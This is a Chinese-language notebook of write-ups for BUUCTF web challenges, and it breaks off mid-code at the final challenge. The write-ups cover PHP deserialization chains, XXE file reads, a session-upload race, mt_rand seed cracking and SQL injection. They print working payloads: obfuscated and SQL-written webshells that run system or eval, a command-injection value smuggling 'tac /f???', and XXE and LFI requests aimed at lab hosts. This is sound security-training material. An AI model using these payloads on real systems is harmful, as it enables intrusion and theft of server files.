buu第四页

## [HFCTF2020]JustEscape

根据题目提示`真的是 PHP 嘛`和**Wappalyzer**



可以大概猜到应该是`node.js`

直接访问`run.php`，有代码

```php
<?php
if( array_key_exists( "code", $_GET ) && $_GET[ 'code' ] != NULL ) {
    $code = $_GET['code'];
    echo eval(code);
} else {
    highlight_file(__FILE__);
}
?>
```

`node.js`还不会，看wp说是vm.js的沙盒逃逸，先放放

## [GXYCTF2019]StrongestMind

经典的计算题

```python
import requests
import time

url = 'http://f98cba55-6b34-433d-b8de-96a946cf200d.node4.buuoj.cn:81/index.php'
session = requests.session()
r = session.get(url = url)
while (1):
    data = r.text[::-1]
    a = data.find('>rb<', 0)
    b = data.find('>rb<', a+1)
    c = data.find('>rb<', b+1)
    calc = data[b + 4:c][::-1]
    print(calc)
    data = {'answer': eval(calc)}
    r = session.post(url = url, data = data)
    print (r.text)
    time.sleep(0.1)
```

## October 2019 Twice SQL Injection


## [SUCTF 2018]GetShell

文件上传

```php
if($contents=file_get_contents($_FILES["file"]["tmp_name"])){
    $data=substr($contents,5);
    foreach ($black_char as $b) {
        if (stripos($data, $b) !== false){
            die("illegal char");
        }
    }     
} 
```

简单fuzz一下，发现过滤了**文件内容**数字和字符还有一些符号

对于文件后缀是没有过滤的，可以尝试下**无字母shell**

因为对`+`有过滤，所以字母自增就不行了

p师还有一种利用汉字取反来生成的，可以利用

[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)

> ```php
> <?php
> $a = ['我','真','厉','害','哈','你','牛'];
> for ($i = 0; $i < 7; $i++) {
>     $b = ~$a[$i];
>     var_dump($b);
> }
> 
> string(3) "wn"
> string(3) "c`"
> string(3) "qv"
> string(3) "QL"
> string(3) "lw"
> string(3) "_"
> string(3) "vd"
> ```
>
> 就是这个意思

抄个🐎

```php
<?=$_=[];$__.=$_;$____=$_==$_;$___=~茉[$____];$___.=~内[$____];$___.=~茉[$____];$___.=~苏[$____];$___.=~的[$____];$___.=~咩[$____];$_____=_;$_____.=~课[$____];$_____.=~尬[$____];$_____.=~笔[$____];$_____.=~端[$____];$__________=$$_____;$___($__________[~瞎[$____]]);
# <?=system($_POST['a']);
```

`env`得到flag

## [b01lers2020]Life on Mars

一眼谜语题



抓包发现可疑参数，合理怀疑是sql注入



成功回显

直接上**sqlmap**

```bash
sqlmap -u http://60f10a76-08b9-4726-9449-bbcfe4ab6db0.node4.buuoj.cn:81/query?search=olympus_mons -D alien_code -T code --dump
```

## [GKCTF 2021]easycms

一个cms，以后审cms的时候统一审了


## [MRCTF2020]Ezaudit

`www.zip`源码泄露

```php
<?php 
header('Content-type:text/html; charset=utf-8');
error_reporting(0);
if(isset($_POST['login'])){
    $username = $_POST['username'];
    $password = $_POST['password'];
    $Private_key = $_POST['Private_key'];
    if (($username == '') || ($password == '') ||($Private_key == '')) {
        // 若为空,视为未填写,提示错误,并3秒后返回登录界面
        header('refresh:2; url=login.html');
        echo "用户名、密码、密钥不能为空啦,crispr会让你在2秒后跳转到登录界面的!";
        exit;
}
    else if($Private_key != '*************' )
    {
        header('refresh:2; url=login.html');
        echo "假密钥，咋会让你登录?crispr会让你在2秒后跳转到登录界面的!";
        exit;
    }

    else{
        if($Private_key === '************'){
        $getuser = "SELECT flag FROM user WHERE username= 'crispr' AND password = '$password'".';'; 
        $link=mysql_connect("localhost","root","root");
        mysql_select_db("test",$link);
        $result = mysql_query($getuser);
        while($row=mysql_fetch_assoc($result)){
            echo "<tr><td>".$row["username"]."</td><td>".$row["flag"]."</td><td>";
        }
    }
    }

} 
// genarate public_key 
function public_key($length = 16) {
    $strings1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $public_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $public_key .= substr($strings1, mt_rand(0, strlen($strings1) - 1), 1);
    return $public_key;
  }

  //genarate private_key
  function private_key($length = 12) {
    $strings2 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $private_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $private_key .= substr($strings2, mt_rand(0, strlen($strings2) - 1), 1);
    return $private_key;
  }
  $Public_key = public_key();
  //$Public_key = KVQP0LdJKRaV3n9D  how to get crispr's private_key???
```

稍微审计一下就可知道是要种子爆破来得到私钥

```python
str1='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
str2='KVQP0LdJKRaV3n9D'
str3 = str1[::-1]
length = len(str2)
res=''
for i in range(len(str2)):  
    for j in range(len(str1)):
        if str2[i] == str1[j]:
            res+=str(j)+' '+str(j)+' '+'0'+' '+str(len(str1)-1)+' '
            break
print(res)
```

根据`php_mt_seed`的文档写成其能看懂的形式

得到

> 1775196155

```php
<?php
mt_srand(1775196155);
function public_key($length = 16) {
  $strings1 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
  $public_key = '';
  for ( $i = 0; $i < $length; $i++ )
  $public_key .= substr($strings1, mt_rand(0, strlen($strings1) - 1), 1);
  return $public_key;
}
function private_key($length = 12) {
    $strings2 = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $private_key = '';
    for ( $i = 0; $i < $length; $i++ )
    $private_key .= substr($strings2, mt_rand(0, strlen($strings2) - 1), 1);
    return $private_key;
  }
$Public_key = public_key();
$private_key = private_key();
echo $private_key;
```

用**php5**运行一下得到密钥`XuNhoueCDCGc`



登陆拿到**flag**

## [极客大挑战 2020]Roamphp1-Welcome

直接进链接是`405`

POST看到代码



直接传`roam1[]=1&roam2[]=2`，在**phpinfo**里面看到flag

## [CSAWQual 2019]Web_Unagi

根据题目看就是xxe，过滤了一些内容，编码绕过就行

```xml-dtd
<?xml version='1.0'?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>gg</username>
        <password>passwd1</password>
        <name>ggg</name>
        <email>alice@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
</users>
```

执行

```bash
cat 1.xml | iconv -f UTF-8 -t UTF-16BE > x16.xml
```

```python
import requests

url = 'http://7e61d85a-9472-4c54-bf9c-98fdcc6f83d4.node4.buuoj.cn:81/upload.php'
files = {'doc':open('x16.xml','rb')}
data={'submit':'Upload'}
r=requests.post(url,files=files,data=data)
print(r.text)
```

不知道为什么python直接传编码后的payload不行，会报错

## [GYCTF2020]Easyphp

`www.zip`源码泄露

**index.php**

```php
<?php
require_once "lib.php";

if(isset($_GET['action'])){
	require_once(__DIR__."/".$_GET['action'].".php");
}
else{
	if($_SESSION['login']==1){
		echo "<script>window.location.href='./index.php?action=update'</script>";
	}
	else{
		echo "<script>window.location.href='./index.php?action=login'</script>";
	}
}
?>
```

**lib.php**

```php
<?php
error_reporting(0);
session_start();
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public function login() {
        if(isset($_POST['username'])&&isset($_POST['password'])){
        $mysqli=new dbCtrl();
        $this->id=$mysqli->login('select id,password from user where username=?');
        if($this->id){
        $_SESSION['id']=$this->id;
        $_SESSION['login']=1;
        echo "你的ID是".$_SESSION['id'];
        echo "你好！".$_SESSION['token'];
        echo "<script>window.location.href='./update.php'</script>";
        return $this->id;
        }
    }
}
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
    public function __destruct(){
        return file_get_contents($this->nickname);//危
    }
    public function __toString()
    {
        $this->nickname->update($this->age);
        return "0-0";
    }
}
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="root";
    public $dbpass="root";
    public $database="test";
    public $name;
    public $password;
    public $mysqli;
    public $token;
    public function __construct()
    {
        $this->name=$_POST['username'];
        $this->password=$_POST['password'];
        $this->token=$_SESSION['token'];
    }
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        if ($this->mysqli->connect_error) {
            die("连接失败，错误:" . $this->mysqli->connect_error);
        }
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
    public function update($sql)
    {
        //还没来得及写
    }
}

```

**login.php**

```php
<?php
require_once('lib.php');
?>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
<title>login</title>
<center>
	<form action="login.php" method="post" style="margin-top: 300">
		<h2>百万前端的用户信息管理系统</h2>
		<h3>半成品系统 留后门的程序员已经跑路</h3>
        		<input type="text" name="username" placeholder="UserName" required>
		<br>
		<input type="password" style="margin-top: 20" name="password" placeholder="password" required>
		<br>
		<button style="margin-top:20;" type="submit">登录</button>
		<br>
		大家记得做好防护</img>
		<br>
		<br>
<?php 
$user=new user();
if(isset($_POST['username'])){
	if(preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['username'])){
		die("<br>Damn you, hacker!");
	}
	if(preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['password'])){
		die("Damn you, hacker!");
	}
	$user->login();
}
?>
	</form>
</center>
```

**update.php**

```php
<?php
require_once('lib.php');
echo '<html>
<meta charset="utf-8">
<title>update</title>
<h2>这是一个未完成的页面，上线时建议删除本页面</h2>
</html>';
if ($_SESSION['login']!=1){
	echo "你还没有登陆呢！";
}
$users=new User();
$users->update();
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}
?>
```

因为一些内外因素，导致自己这个链子看了好久。。烦

> **pop链**
>
> * 利用update.php中的`$users->update();`来进到**lib.php**中的`update`
>
> * `update`中将函数`getNewinfo()`中得到的`Info`类来反序列化，此时**age和nickname**是可控的
>
> * `getNewinfo()`调用了`safe`，可以进行字符串逃逸
>
>   ```php
>   function safe($parm){
>       $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
>       return str_replace($array,'hacker',$parm);
>   }
>   ```
>   
>  * 利用字符串逃逸和反序列化可以得到一个外层是`Info`类，内层是任意的类，所以此时几乎只能由`__destruct`入手，不能调用其它函数
>
>  * 在`UpdateHelper`类中的`__destruct`函数用到了`echo $this->sql;`，正好可以进入到`User`类的`__toString`
>
>  * `User`的`__toString`中`$this->nickname->update($this->age);`可以调用到`Info`的`__call`函数`echo $this->CtrlCase->login($argument[0]);`，从而调用`dbCtrl`的`login()`
>
>  * 此时便可执行任意**sql**语句，逃逸成功
>

只需要将字符串逃逸出的那一部分构造出来，然后加字符串补齐就好了

下面用到的链子和上面的有一点点区别，上面是用

> 在`UpdateHelper`类中的`__destruct`函数用到了`echo $this->sql;`，正好可以进入到`User`类的`__toString`

而这里是用`User`的`__destruct`中的`return file_get_contents($this->nickname);`

这里也同样可以进入到`User`的`__toString`

```php
<?php

class User
{
    public $id;
    public $age=null;
    public $nickname=null;

}
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;

}
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;

}
class dbCtrl
{
    public $hostname="127.0.0.1";
    public $dbuser="root";
    public $dbpass="root";
    public $database="test";
    public $name;
    public $password;
    public $mysqli;
    public $token;

}

$sql = 'update user set password=md5("admin") where username="admin"';

$d = new dbCtrl();
$d->name = 'xl';
$d->password = 'xl';

$c = new Info();
$c->CtrlCase = $d;

$b = new User();
$b->nickname = $c;
$b->age = $sql;

$a = new User();
$a->nickname = $b;

echo '";s:8:"nickname";'.serialize($a).';}';
```



这个脚本是**X1r0z**写的，之前都是嗯构造在那数字符，这个方法学到了

> 只构造内层类，外层补上外面的一点字符串，然后用python加union就构造好了age

## [SCTF2019]Flag Shop

node.js


## [WMCTF2020]Make PHP Great Again

```php
<?php
highlight_file(__FILE__);
require_once 'flag.php';
if(isset($_GET['file'])) {
  require_once $_GET['file'];
}
```

**session文件上传**

```python
import io
import requests
import threading
url = 'http://67a4be62-5e13-4f32-899d-251246949d4d.node4.buuoj.cn:81/'

def write(session):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("tac f*");?>xl'
    }
    while True:
        f = io.BytesIO(b'a' * 1024 * 10)
        response = session.post(url,cookies={'PHPSESSID': 'flag'}, data=data, files={'file': ('xl.txt', f)})
def read(session):
    while True:
        response = session.get(url+'?file=/tmp/sess_flag')
        if 'xl' in response.text:
            print(response.text)
            break
        else:
            print('retry')

if __name__ == '__main__':
    session = requests.session()
    write = threading.Thread(target=write, args=(session,))
    write.daemon = True
    write.start()
    read(session)
```

但很明显这是非预期，考点是 **利用 /proc 目录绕过包含限制**

于是就有了下面这题

## [WMCTF2020]Make PHP Great Again 2.0

[php源码分析 require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)

**payload**

```php
http://f9fd1d96-9550-4095-99f5-49167eda6d07.node4.buuoj.cn:81/?file=php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

## [ISITDTU 2019]EasyPHP

```php
<?php
highlight_file(__FILE__);

$_ = @$_GET['_'];
if ( preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', $_) )
    die('rosé will not do it');

if ( strlen(count_chars(strtolower($_), 0x3)) > 0xd )
    die('you are so close, omg');

eval($_);
?>
```

脚本检测剩余字符

```php
<?php
for($a = 0; $a < 256; $a++){
    if (!preg_match('/[\x00- 0-9\'"`$&.,|[{_defgops\x7F]+/i', chr($a))){
        echo chr($a)." ";
    }
}
?>
! # % ( ) * + - / : ; < = > ? @ A B C H I J K L M N Q R T U V W X Y Z \ ] ^ a b c h i j k l m n q r t u v w x y z } ~
```

由异或也有`~`取反，那么直接构造呗

```php 
<?php
$str = "p h p i n f o";
$arr1 = explode(' ', $str);
echo "~";
foreach ($arr1 as $key => $value) {
    echo "%".bin2hex(~$value);
}
?>
```

**disable function**

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,escapeshellarg,escapeshellcmd,passthru,proc_close,proc_get_status,proc_open,shell_exec,mail,imap_open,
```

`strlen(count_chars(strtolower($_), 0x3)) > 0xd`

这一步限制了只能有十三种字符出现

命令执行都被过滤了

然后就配合异或想办法绕过十三字符的限制，就贴个wp吧

[[ISITDTU 2019]EasyPHP](https://www.shawroot.cc/1209.html)

最终**payload**

```
http://1f5a71fa-3d9b-4a86-8224-8c23e205c42d.node4.buuoj.cn:81/?_=((%8c%9a%9e%9b%9c%96%93%9a)^(%ff%ff%ff%ff%ff%ff%ff%ff)^(%9b%ff%ff%ff%93%ff%ff%ff)^(%9a%ff%ff%ff%96%ff%ff%ff))(((%9a%9c%9b)^(%ff%ff%ff)^(%ff%93%ff)^(%ff%9e%ff))(((%8c%9c%9e%9c%9b%96%8c)^(%ff%ff%ff%ff%ff%ff%ff)^(%ff%ff%ff%93%ff%ff%9b)^(%ff%ff%ff%9e%ff%ff%9a))(%d1^%ff)));
```

## [HarekazeCTF2019]Avatar Uploader 1

原题是给出了源码的，**buu**上面没给

其实就是上传一个只保留了文件头的文件绕过`getimagesize`，绕过了就给**flag**



上传得到flag

## [极客大挑战 2020]Greatphp

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

https://xz.aliyun.com/t/9293

https://johnfrod.top/ctf/2020-%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98greatphp/

## [FireshellCTF2020]Caas

打开发现是一个**C语言**编译器，会将编译后的文件返回给你运行

所以可执行文件实际上是不会在远程执行的，只能尝试通过编译报错回显信息

没过滤，直接尝试包含`/flag`

```cpp
#include "/flag"
```

虽然会报错，但是文件内容会在报错信息中回显


## [N1CTF 2018]eating_cms


## EasyBypass

```php
<?php

highlight_file(__FILE__);

$comm1 = $_GET['comm1'];
$comm2 = $_GET['comm2'];


if(preg_match("/\'|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $comm1))
    $comm1 = "";
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|\||tail|more|cat|string|bin|less||tac|sh|flag|find|grep|echo|w/is", $comm2))
    $comm2 = "";

$flag = "#flag in /flag";

$comm1 = '"' . $comm1 . '"';
$comm2 = '"' . $comm2 . '"';

$cmd = "file $comm1 $comm2";
system($cmd);
?>
```

其实没过滤什么，闭合双引号就好

```
?comm1=index.php";tac /f???;"&comm2=
```

## [BSidesCF 2019]SVGMagic


[svg注入](https://zhuanlan.zhihu.com/p/323315064)

可利用的点挺多的，既可以打xxe，也可以打xss，里面都有相应示例

最终**payload**

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY file SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
  <text x="10" y="20">&file;</text>
</svg>
```

`/proc/self/cwd/`表示当前目录

## [LCTF 2018]bestphp's revenge

写在了  **SoapClient与反序列化**

## [GYCTF2020]Ez_Express

一眼**node.js**，先爬了

## [SUCTF 2018]MultiSQL

id处存在注入点，过滤了`union select ' & |`

`http://52c14e67-3753-47e5-87ee-bd3f63e6be02.node4.buuoj.cn:81/user/user.php?id=if(2%3E1,1,0)`

然后有一个文件上传的功能，白名单过滤的很死，没什么利用的机会，但是给了我们一个信息

> `/var/www/html/favicon`**有权限写入文件**

再根据题名**MultiSQL**，很明显就是堆叠注入了（因为**select**是单独直接被过滤的，所以直接注是注不出来什么信息的

这里用到了**hex**编码绕过

```python
str="select '<?php eval($_POST[_]);?>' into outfile '/var/www/html/favicon/shell.php';"
len_str=len(str)
for i in range(0,len_str):
	if i == 0:
		print('char(%s'%ord(str[i]),end="")
	else:
		print(',%s'%ord(str[i]),end="")
print(')')

#char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59)
```

**payload**

```sql
?id=2;set @sql=char(115,101,108,101,99,116,32,39,60,63,112,104,112,32,101,118,97,108,40,36,95,80,79,83,84,91,95,93,41,59,63,62,39,32,105,110,116,111,32,111,117,116,102,105,108,101,32,39,47,118,97,114,47,119,119,119,47,104,116,109,108,47,102,97,118,105,99,111,110,47,115,104,101,108,108,46,112,104,112,39,59);prepare query from @sql;execute query;
```

先使用 set 定义一个 用户变量 用户变量的生命周期会持续到连接中断，这就保证了我们可以在其他语句中使用这个变量的值。然后我们需要把这个值，作为 mysql 语句执行，那么就需要一个类似于 eval() 的东西。而在mysql 中，需要通过预处理语句实现。

```
prepare sql from @num;		#预定义一个语句
execute sql;				#执行这个语句
```

## [安洵杯 2019]不是文件上传

由页面最下方的


上github搜索到源码（纯社工


稍微审计一下代码会发现这一段存在**insert注入**(文件名可控



而在这里利用了反序列化



根据给出的类，可以构造出一个反序列化任意查看文件，盲猜flag在`/flag`，开始构造



```php
<?php
class helper
{
    protected $ifview = True;
    protected $config = "/flag";
}
$a=new helper();
echo "0x".bin2hex(serialize($a));
```

由于使用的两个值是**protected**类型，而代码对`\x00`有过滤，所以用16进制绕过一下（**mysql会自动转为字符串的**

```
1','1','1','1',0x4f3a363a2268656c706572223a323a7b733a393a22002a00696676696577223b623a313b733a393a22002a00636f6e666967223b733a353a222f666c6167223b7d)#.png
```



拿到flag

## [GXYCTF2019]BabysqliV3.0

弱密码

`admin  password`

```
http://52bb8ad5-d984-46b0-ac0c-662bc08246bf.node4.buuoj.cn:81/home.php?file=upload
```

盲猜文件读取

```
?file=php://filter/convert.base64-encode/resource=upload
```

**home.php**

```php
<?php
session_start();
echo "<meta http-equiv=\"Content-Type\" content=\"text/html; charset=utf-8\" /> <title>Home</title>";
error_reporting(0);
if(isset($_SESSION['user'])){
	if(isset($_GET['file'])){
		if(preg_match("/.?f.?l.?a.?g.?/i", $_GET['file'])){
			die("hacker!");
		}
		else{
			if(preg_match("/home$/i", $_GET['file']) or preg_match("/upload$/i", $_GET['file'])){
				$file = $_GET['file'].".php";
			}
			else{
				$file = $_GET['file'].".fxxkyou!";
			}
			echo "当前引用的是 ".$file;
			require $file;
		}
		
	}
	else{
		die("no permission!");
	}
}
?>
```

**upload.php**

```php
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 

<form action="" method="post" enctype="multipart/form-data">
	上传文件
	<input type="file" name="file" />
	<input type="submit" name="submit" value="上传" />
</form>

<?php
error_reporting(0);
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
	

	function __construct(){
		$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
		$ext = ".txt";
		@mkdir($sandbox, 0777, true);
